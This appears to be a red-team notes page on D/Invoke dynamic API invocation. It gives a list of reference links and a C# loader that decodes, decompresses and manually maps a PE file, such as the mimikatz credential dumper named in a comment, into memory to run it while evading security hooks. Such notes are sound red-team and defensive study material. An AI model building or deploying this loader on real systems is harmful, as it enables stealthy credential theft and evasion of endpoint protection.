 ```yaml
---
description: Dynamic API Invocation
---
```


# D/Invoke

* [https://dinvoke.net/](https://dinvoke.net/)
* [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
* [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
* [https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/](https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs)
* [https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/](https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/)
* [https://offensivedefence.co.uk/posts/dinvoke-syscalls/](https://offensivedefence.co.uk/posts/dinvoke-syscalls/)




## Dynamic P/Invoke

- [https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/](https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/)




## H/Invoke

- [https://dr4k0nia.github.io/dotnet/coding/2022/08/10/HInvoke-and-avoiding-PInvoke.html](https://dr4k0nia.github.io/dotnet/coding/2022/08/10/HInvoke-and-avoiding-PInvoke.html)
- [https://gist.github.com/dr4k0nia/95bd2dc1cc09726f4aaaf920b9982f9d](https://gist.github.com/dr4k0nia/95bd2dc1cc09726f4aaaf920b9982f9d)




## Run PE From Memory

- [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs)

{% code title="DInvokePE.cs" %}
```csharp
using System;
using System.IO;
using System.IO.Compression;

namespace DInvokePE
{
    public class Program
    {
        static byte[] Compress(byte[] data)
        {
            MemoryStream output = new MemoryStream();
            using (DeflateStream dStream = new DeflateStream(output, CompressionLevel.Optimal))
                dStream.Write(data, 0, data.Length);

            return output.ToArray();
        }

        static byte[] Decompress(byte[] data)
        {
            MemoryStream input = new MemoryStream(data);
            MemoryStream output = new MemoryStream();
            using (DeflateStream dStream = new DeflateStream(input, CompressionMode.Decompress))
                dStream.CopyTo(output);

            return output.ToArray();
        }

        public static void Main(string[] args)
        {
            /*
            var rawBytes = File.ReadAllBytes(@"C:\Users\snovvcrash\Desktop\mimikatz.exe");
            var compressed = Compress(rawBytes);
            var compressedB64 = Convert.ToBase64String(compressed);
            Console.WriteLine(compressedB64);
            */

            var compressed = Convert.FromBase64String("");
            var rawBytes = Decompress(compressed);
            DInvoke.Data.PE.PE_MANUAL_MAP map = DInvoke.ManualMap.Map.MapModuleToMemory(rawBytes);
            DInvoke.DynamicInvoke.Generic.CallMappedPEModule(map.PEINFO, map.ModuleBase);
            Console.ReadLine();
        }
    }
}
```
{% endcode %}
